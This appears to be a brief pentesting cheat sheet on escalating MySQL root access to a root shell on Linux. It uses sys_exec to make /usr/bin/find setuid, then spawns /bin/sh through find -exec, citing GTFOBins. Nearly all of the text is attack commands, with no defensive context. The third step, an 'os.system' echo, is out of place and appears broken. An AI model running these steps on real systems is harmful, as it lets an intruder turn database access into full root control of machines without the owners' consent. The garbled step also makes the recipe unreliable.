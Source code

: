 # Abuse MySQL as root

### If we have root access in the MySQL hosted on the target machine, we may have the possibility to execute privileged commands as if we were root on the machine as well.

#### 1) 

    mysql -u root -p

#### 2) 

    SELECT sys_exec('chmod u+s /usr/bin/find');

#### 3) 

    echo os.system('/bin/bash')

#### 4) 

    find FILE -exec "/bin/sh" \; (GTFOBINS)
